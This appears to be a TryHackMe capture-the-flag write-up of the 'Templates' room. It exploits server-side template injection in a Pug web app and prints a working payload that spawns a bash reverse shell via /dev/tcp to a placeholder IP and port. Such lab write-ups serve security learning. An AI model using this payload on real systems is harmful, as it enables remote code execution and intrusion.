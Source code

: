 # TryHackMe Templates Room
[Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![](Images/Template-Image-1.png)

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![](Images/Template-Image-2.png)

then click convert will return this

![](Images/Template-Image-3.png)

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![](Images/Template-Image-4.png)

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
